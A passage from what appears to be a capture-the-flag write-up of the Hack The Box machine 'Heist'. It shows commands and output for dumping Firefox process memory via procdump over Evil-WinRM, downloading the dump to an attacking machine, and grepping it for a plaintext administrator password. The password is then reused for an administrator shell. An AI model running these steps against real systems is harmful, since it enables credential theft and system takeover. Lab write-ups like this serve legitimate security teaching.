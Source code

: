 With `-ma 6400` being the first process id for firefox.

Cool, we now have a process dump for firefox:

```
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/24/2024   1:14 AM      502760671 firefox.exe_240724_011432.dmp
-a----        7/24/2024  12:22 AM         600580 PowerUp.ps1
-a----        7/24/2024   1:09 AM         424856 procdump64.exe
-a----        7/24/2024  12:36 AM         598528 SharpWeb.exe
-a----        7/24/2024  12:27 AM        2387456 winPEASx64.exe
```

We can now download the file locally to our attacking machine:

```
*Evil-WinRM* PS C:\temp> download C:\temp\firefox.exe_240724_011432.dmp /home/ryan/HTB/Heist/firefox.exe_240724_011432.dmp
Info: Downloading C:\temp\firefox.exe_240724_011432.dmp to /home/ryan/HTB/Heist/firefox.exe_240724_011432.dmp

                                                             
Info: Download successful!
```

Once back on our machine we can use `strings` and `grep` to look for anything interesting:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ strings firefox.exe_240724_011432.dmp| grep pass 
```

Cool, looks like we've found something:

![htb_heist_strings.png](../assets/heist_assets/htb_heist_strings.png)

`administrator:4dD!5}x/re8]FBuZ`


Lets use these credentials to log back in with evil-winrm:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ evil-winrm -u administrator -p '4dD!5}x/re8]FBuZ' -i 10.129.96.157

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
```